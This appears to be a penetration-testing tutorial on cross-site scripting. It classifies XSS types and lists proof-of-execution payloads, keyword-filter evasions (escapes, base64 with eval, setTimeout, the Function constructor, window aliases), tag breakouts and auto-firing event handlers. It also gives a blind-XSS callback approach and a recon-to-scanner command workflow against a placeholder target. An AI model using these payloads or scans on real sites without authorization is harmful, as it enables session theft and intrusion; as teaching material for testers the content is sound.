

<Callout type="info" title="Overview">
**Cross-Site Scripting (XSS)** is a web security vulnerability that allows an attacker to inject arbitrary JavaScript into a web page viewed by another user. The injected script executes in the victim's browser within the context of the vulnerable site, giving it access to the victim's session, cookies, DOM, and any data the application exposes to that user.
</Callout>


---

## XSS at a Glance

The diagram below shows how a payload travels from the attacker, through the application, to the victim's browser — and where each XSS type diverges.



<Callout type="tip" title="How to read the diagram">
- **Green nodes** are the four classical XSS classifications — distinguished by *where the payload lives before reaching the victim*.
- **Grey nodes** are the edge cases: Self-XSS (no remote delivery, victim-only) and XSSI (sibling technique, not a subtype of XSS).
- **Blue node** is the moment of execution in the victim's browser — every path converges here.
- **Purple node** is the Blind-XSS callback — the only way the attacker learns the payload fired.
- **Red node** is the impact — every successful execution can lead here.
</Callout>

---

## XSS Classifications

The XSS family is grouped by **where the payload is stored** and **how it reaches the victim**. Understanding the classification determines where to look for sinks and how to deliver the payload.

<Tabs>
  <Tab title="RXSS — Reflected">
    **Reflected XSS** — the payload is taken from a user-controlled request parameter and **reflected back** into the response without persistence.

    - **Sink:** any reflected parameter in the HTML body, attribute, or script.
    - **Delivery:** the victim must be tricked into clicking a crafted link / submitting a crafted form.
    - **Typical vector:** `https://victim.com/search?q=<script>alert(1)</script>`
    - **Scope:** affects only the user who triggers the crafted link.
  </Tab>

  <Tab title="SXSS — Stored">
    **Stored XSS** (Persistent XSS) — the payload is **stored on the server** (database, file, comment field, profile) and served to every visitor who views the affected page.

    - **Sink:** any input that is persisted and later rendered without escaping.
    - **Delivery:** no user interaction beyond visiting the page — the victim just browses normally.
    - **Typical vector:** a comment containing `<script>...</script>` that other users see.
    - **Scope:** every user who views the stored payload. Highest impact of the classical types.
  </Tab>

  <Tab title="BXSS — Blind">
    **Blind XSS** — a sub-case of Stored XSS where the payload is stored, but **the attacker cannot see where or when it fires**. The payload typically triggers in an admin panel, support ticket, log viewer, or backend CRM that the attacker has no access to.

    - **Sink:** any input that ends up rendered in an internal / admin context (ticket title, user-agent, contact form, file name, etc.).
    - **Delivery:** submit the payload through any user-facing input and **wait** for an admin / staff member to view the affected page.
    - **Callback:** use an external XSS hunter service to receive a callback when the payload fires — you then learn the page URL, DOM, cookies, and IP of the viewer.
    - **Tool:** [XSS Hunter (Truffle Security)](https://xsshunter.trufflesecurity.com/app/#/) — provides a payload that reports back on execution.
  </Tab>

  <Tab title="DXSS — DOM-based">
    **DOM-based XSS** — the payload never travels to the server. A client-side script reads a **source** (URL, `location.hash`, `postMessage`, etc.) and writes it to a **sink** (`innerHTML`, `document.write`, `eval`, etc.) without sanitization.

    - **Sink:** client-side JS that touches `location`, `document.URL`, `document.referrer`, `window.name`, `postMessage`, etc.
    - **Delivery:** a crafted URL whose fragment (`#...`) or parameter is read by the vulnerable client-side code.
    - **Server visibility:** the payload may **never appear in the server logs** because it lives in the fragment / is consumed purely client-side.
    - **Typical vector:** `https://victim.com/page#`
  </Tab>

  <Tab title="XSSI — Information Disclosure">
    **XSSI (Cross-Site Script Inclusion / XSS Information Disclosure)** — an attacker's page includes a script or JSON endpoint from the victim's origin. Because `<script src=...>` is **not** subject to SOP, the attacker's page can load the cross-origin script. By overriding built-in `Array` / `Object` constructors on the attacker page before the inclusion, the attacker can leak data embedded in the loaded script (CSRF tokens, user data returned as JSONP / JS arrays / JS objects).

    - **Sink:** any endpoint that returns sensitive data in a JavaScript-parseable form (JSONP, JS arrays, JS objects) without proper prototype protection.
    - **Delivery:** the victim visits the attacker page, which includes the victim-origin script and reads the leaked data.
    - **Note:** "XSSI" in the strict sense is **Cross-Site Script Inclusion** — a sibling of XSS, not a subtype of it. It is grouped with XSS because both exploit browser script execution to leak victim data.
  </Tab>

  <Tab title="Self-XSS">
    **Self-XSS** — the payload can only be triggered by the **victim themselves**, typically by pasting attacker-supplied content into their own browser console, address bar (with `javascript:`), or developer tools. There is no way for an attacker to deliver it to a victim remotely.

    - **Sink:** the application reflects the payload, but only into a context the user controls for themselves (e.g. a profile field shown only to that user, or the browser console).
    - **Delivery:** social engineering — "paste this into your console to unlock a feature".
    - **Severity:** typically **low** / informational, because the victim is the only one affected and they have to actively paste the payload. Many bug-bounty programs **do not pay** for pure Self-XSS unless it can be chained into something else (e.g. combined with CSRF or login-CSRF to widen impact).
    - **Why it is "not good":** because it cannot be triggered against a third party without social engineering, it does not represent a direct attack on other users.
  </Tab>
</Tabs>

---

## Enumeration / Testing Functions

The first step of any XSS test is to confirm that **arbitrary JavaScript executes** in the target context. Use a harmless but visible function to prove execution before escalating to data exfiltration.

<AccordionGroup>
  <Accordion title="Standard dialog functions">
    These four built-in browser functions produce a visible side effect and are the canonical "proof of execution" indicators:

    | Function | Effect | Returns |
    | --- | --- | --- |
    | `alert(1)` | Shows a modal dialog with the argument | `undefined` |
    | `prompt(1)` | Shows a modal dialog with an input field | string or `null` |
    | `confirm(1)` | Shows a modal dialog with OK / Cancel | boolean |
    | `print()` | Opens the browser's print dialog | `undefined` |

    ```javascript
    alert(1);
    prompt(1);
    confirm(1);
    print();
    ```
  </Accordion>

  <Accordion title="Obfuscated alert() — bypassing keyword filters">
    When a WAF or application filter blocks the literal string `alert`, the same call can be reached through Unicode escapes, octal escapes, `String.fromCharCode`, or property access. The browser evaluates these to the same identifier.

    **Unicode escape** (replace any character with `\u00HH`):
    ```javascript
    al\u0065rt(1);          // \u0065 = 'e'  →  alert(1)
    \u0061lert(1);          // \u0061 = 'a' →  alert(1)
    ```

    **Octal escape** (used inside a string passed to `eval`):
    ```javascript
    eval("\141\154\145\162\164(1)");   // octal for "alert(1)"
    ```

    **`String.fromCharCode`** (build the function name from char codes, then invoke):
    ```javascript
    // String.fromCharCode(97,108,101,114,116) === "alert"
    window[String.fromCharCode(97,108,101,114,116)](1);

    // or via eval
    eval(String.fromCharCode(97,108,101,114,116) + "(1)");
    ```

    <Callout type="info" title="Correction — String.fromCharCode returns a string">
      `String.fromCharCode(65,66,67)` returns the string `"ABC"`. It does **not** call any function by itself. To turn the resulting string into a function call you must either index into `window` with the string (as shown above) or pass it to `eval`. Writing `alert(String.fromCharCode(65,66,67))` only pops up a dialog showing "ABC" — it does not bypass anything.
    </Callout>
  </Accordion>
</AccordionGroup>

---

## Payload Execution Techniques

If `alert` itself is filtered but arbitrary JS still runs, there are many alternative ways to **execute a string as code**. The techniques below all evaluate `"alert(1)"` (or its encoded form) without writing `alert(1)` literally.

<Tabs>
  <Tab title="eval()">
    `eval(string)` parses and executes its argument as JavaScript. The simplest string-to-code bridge.

    ```javascript
    eval("alert(1)");
    ```

    - **Why it works:** the string never has to appear as a literal identifier in the source — it can be concatenated, encoded, or built at runtime.
    - **Why filters still catch it:** `eval` is itself a heavily-flagged keyword. Most WAFs block `eval(` outright. Use the alternatives in the next tabs.
  </Tab>

  <Tab title="Base64 (btoa / atob)">
    Encode the payload with `btoa` and decode at runtime with `atob`, then pass the result to `eval` (or to `Function`, `setTimeout`, etc.).

    ```javascript
    // btoa("alert(1)") === "YWxlcnQoMSk="
    eval(atob("YWxlcnQoMSk="));
    ```

    - **Encoding:** `btoa(str)` → base64 string. `atob(b64)` → original string.
    - **Bypass value:** the base64 string `"YWxlcnQoMSk="` does not contain the substring `"alert"` — signature-based filters miss it.
    - **Note:** `btoa` / `atob` work on Latin-1 strings only. For Unicode, encode to UTF-8 first (`unescape(encodeURIComponent(...))`).
  </Tab>

  <Tab title="setInterval / setTimeout">
    Both `setTimeout` and `setInterval` accept a **string** argument that is evaluated as JavaScript — exactly like `eval`, but their names are far less commonly filtered.

    ```javascript
    // Base64 form — same effect as eval(atob("YWxlcnQoMSk="))
    setTimeout(atob("YWxlcnQoMSk="), 0);
    setInterval(atob("YWxlcnQoMSk="), 1);

    // Simplest form (no encoding — works only if "alert" is not filtered):
    setTimeout("alert(1)", 0);
    setInterval("alert(1)", 1);
    ```

    - **Bypass value:** `setTimeout` / `setInterval` are rarely on keyword blocklists, but they execute string arguments through the same `eval` mechanism internally.
    - **Tip:** pass `0` as the delay so the payload fires immediately.
  </Tab>

  <Tab title="Tagged templates (backticks)">
    JavaScript's **tagged template literal** syntax lets you call a function by writing `` function`string` `` — no parentheses needed. This bypasses filters that look for `(` and `)`.

    ```javascript
    alert`1`;                       // equivalent to alert("1")
    ```

    - **How it works:** `` fn`str` `` calls `fn` with an array of string parts plus any interpolated values. For a single static string, `` alert`1` `` behaves like `alert("1")`.
    - **Bypass value:** no `(` or `)` characters appear in the payload.
  </Tab>

  <Tab title="Function constructor">
    The `Function` constructor creates a new function from a string and returns it. Calling the result executes the string — a clean `eval` replacement that is rarely filtered.

    ```javascript
    // Classic form
    Function("alert(1)")();

    // Tagged-template form — Function as a tag, then immediately invoked
    Function`alert(1)`();
    ```

    - **How it works:** `Function("alert(1)")` returns `function anonymous() { alert(1) }`. The trailing `()` calls it.
    - **Bypass value:** neither `eval` nor `(` (in the tagged form) appears in the payload.
    - **Note:** `Function`-created code runs in the global scope, not in the local closure — it cannot read local variables of the surrounding code.
  </Tab>
</Tabs>

---

## DOM-based Execution

Even when `alert` is reachable, the literal `window` reference can also be replaced. Browsers expose several aliases for the global object that all evaluate to the same window.

### Property access forms

```javascript
window.alert(1);              // canonical
window['alert'](1);           // bracket access — bypasses dot-notation filters
window['ale'+'rt'](1);        // string concatenation inside the brackets
```

### Aliases for `window`

Any of these identifiers resolves to the same global window object — useful when `window` itself is on a blocklist:

| Alias | Available in |
| --- | --- |
| `self` | All window contexts |
| `top` | Topmost frame in the frame hierarchy |
| `parent` | Parent frame of the current one |
| `this` | The global object (in non-strict, top-level code) |
| `frames` | Same as `window` |
| `content` | Some browsers (Chrome content-script context) |
| `globalThis` | ES2020+ — the canonical name for the global object |

```javascript
self.alert(1);
top['alert'](1);
parent['alert'](1);
frames.alert(1);
```

<Callout type="info" title="Why this matters">
  Filters that block the string `window` are useless if any of these aliases is reachable. The same applies to filtering `document` — `top.document` and `parent.document` reach the same object (subject to same-origin / frame-access rules).
</Callout>

---

## Context-Specific Payloads

Where the payload lands in the HTML determines the syntax it needs. Two of the most common contexts:

### Inside an `href` attribute (or any URL attribute)

When the injection point is the value of an `href` (or `src`, `action`, etc.) attribute, the browser treats the value as a URL. Use the `javascript:` scheme to execute code when the link is clicked.

```html
<a href="javascript:alert(1)">click</a>
```

```html
<iframe src="javascript:alert(1)"></iframe>
```

<Callout type="warning">
  The `javascript:` URL only fires on user interaction (click) for `href`, and may be blocked by some browsers' navigational restrictions. Test in a real browser.
</Callout>

### Breaking out of a closing tag context

If the payload is injected **inside** an element whose content is parsed as raw text — `<title>`, `<textarea>`, `<style>`, `<noscript>`, `<script>`, `<xmp>`, `<iframe>` — your `<script>` tag will be treated as plain text and **will not execute**. You must first close the enclosing tag.

```html
<!-- Broken — payload lives inside <textarea>, so the browser treats it as text -->
<textarea><script>alert(1)</script></textarea>
```

```html
<!-- Working — close the textarea first, then inject -->
<textarea></textarea><script>alert(1)</script>
```

The tags whose content is parsed as **raw text** (and which therefore require closing first):

| Tag | Parsing rule |
| --- | --- |
| `<title>` | Raw text |
| `<script>` | Raw text (script content) |
| `<noscript>` | Raw text when scripting enabled |
| `<textarea>` | Raw text (escapable) |
| `<style>` | Raw text (CSS) |
| `<xmp>` | Raw text (deprecated) |
| `<iframe>` | Raw text (escapable) |

---

## Event-Based Payloads

When the injection lands inside an HTML tag, you cannot open a new `<script>` block — instead attach an **event handler** that fires on a user action or on element load.

### Load / error events (fire automatically — no click needed)

```html

<svg src=1 onload=alert(1)>
<body onload=alert(1)>
<input autofocus onfocus=alert(1)>
<details open ontoggle=alert(1)>
<video src=x onerror=alert(1)>
```

### User-interaction events

```html
<div onmouseover=prompt(1)>hover me</div>
<button onclick=prompt(1)>click me</button>
<input oncopy=prompt(1)>
<input onpaste=prompt(1)>
```

### Custom tags (every tag supports event handlers)

HTML allows arbitrary tag names. A custom element with an event handler behaves like any other element — useful when the application filters known tag names but allows unknown ones.

```html
<cna onmouseover=prompt(1)>hello world</cna>
<cna onclick=prompt(1)>hello world</cna>
<cna oncopy=prompt(1)>hello world</cna>
```

<Callout type="info" title="Magic events">
  The most useful events for XSS are those that **fire without a click**: `onload`, `onerror`, `onfocus` (with `autofocus`), `ontoggle` (with `open`), `onanimationstart`, `onanimationend`. These turn a stored XSS into a no-interaction payload.
</Callout>

---

## Blind XSS

Blind XSS is the practice of injecting payloads into inputs you **cannot see rendered** — typically admin panels, support tools, log viewers, or backend CRMs. The payload lies dormant until an internal user opens the affected view, at which point it fires and reports back.

### XSS Hunter

[XSS Hunter](https://xsshunter.trufflesecurity.com/app/#/) provides a hosted callback service: you inject a payload that loads a remote script from XSS Hunter, and when it fires you receive a full report — page URL, DOM, cookies, screenshot, and the victim's browser / IP.

<Callout type="info" title="Why a callback is essential">
  In Blind XSS you do not control the page where the payload fires. Without a callback service you would have no way to know whether the payload executed at all. The callback is the entire point — it turns an invisible injection into a confirmed finding with full context.
</Callout>

<Callout type="warning">
  Only test Blind XSS against systems you own or are authorized to assess. Injecting callback payloads into a third party's admin panel can expose real user data and is illegal without permission.
</Callout>

---

## Reconnaissance & Discovery Tools

The tools below are the standard toolkit for finding XSS-relevant **endpoints and parameters** at scale: URL discovery, parameter mining, pattern-based filtering, and automated XSS scanning.

<CardGroup cols={2}>
  <Card title="feroxbuster" icon="search">
    Recursive content / directory brute-forcer written in Rust. Fast, supports filtering, recursion, and parallel requests. Used to discover hidden endpoints that may contain reflective parameters.

    **GitHub:** [github.com/epi052/feroxbuster](https://github.com/epi052/feroxbuster)
  </Card>
  <Card title="hakrawler" icon="globe">
    Lightweight web crawler written in Go. Pass it a URL and it returns all the links and forms it discovers — useful for mapping a target's parameter-bearing endpoints quickly.

    **GitHub:** [github.com/hakluke/hakrawler](https://github.com/hakluke/hakrawler)
  </Card>
  <Card title="waybackurls" icon="archive">
    Fetches all known URLs for a domain from the Wayback Machine, Common Crawl, and other archives. Returns historical endpoints — including deprecated parameters that often still reflect input.

    **GitHub:** [github.com/tomnomnom/waybackurls](https://github.com/tomnomnom/waybackurls)
  </Card>
  <Card title="gf + gf-patterns" icon="dog">
    `gf` is a `grep` wrapper that lets you reuse named patterns. The `gf-patterns` repo ships ready-made patterns for XSS, SQLi, SSRF, LFI, etc. — pipe your `waybackurls` output through `gf xss` to keep only URLs whose parameters are likely XSS sinks.

    **gf:** [github.com/tomnomnom/gf](https://github.com/tomnomnom/gf)  ·  **patterns:** [github.com/1ndianl33t/Gf-Patterns](https://github.com/1ndianl33t/Gf-Patterns)
  </Card>
  <Card title="ParamSpider" icon="list">
    Mines parameters from Wayback Machine, Common Crawl, and the live target — excluding the boring ones. Output is fed straight into a scanner like `dalfox` or `xsser` for actual XSS testing.

    **GitHub:** [github.com/devanshbatham/ParamSpider](https://github.com/devanshbatham/ParamSpider)
  </Card>
  <Card title="xsser" icon="crosshair">
    Fully-featured automated XSS scanner. Takes a list of URLs / parameters (typically the output of `waybackurls` + `gf xss` + `ParamSpider`) and injects a large built-in payload set, supporting GET / POST, custom headers, proxying through Burp, and report generation.

    **GitHub:** [github.com/epsylon/xsser](https://github.com/epsylon/xsser)
  </Card>
</CardGroup>

<Callout type="tip" title="Typical workflow">
  ```bash
  # 1. Collect every known URL for the target
  waybackurls victim.com | tee urls.txt

  # 2. Crawl the live site for additional links
  hakrawler -u https://victim.com -depth 2 >> urls.txt

  # 3. Keep only URLs that look like XSS sinks
  gf xss urls.txt | tee xss_candidates.txt

  # 4. Mine parameters from archives
  paramspider -d victim.com

  # 5. Brute-force hidden paths
  feroxbuster -u https://victim.com -w /usr/share/wordlists/dirb/common.txt

  # 6. Automatically scan the candidates for XSS
  xsser -u "https://victim.com/search?q=XSS" --auto
  ```
</Callout>

## Summary

<Callout type="quote">
XSS is fundamentally about **where the payload lands** (reflected / stored / DOM / blind) and **what executes it** (a script block, an event handler, a `javascript:` URL, an `eval`-like sink).

A robust test follows that order: classify the injection, confirm execution with a harmless `alert` variant, then escalate — breaking out of context, swapping blocked functions for aliases, and chaining into data exfiltration or session theft.
</Callout>
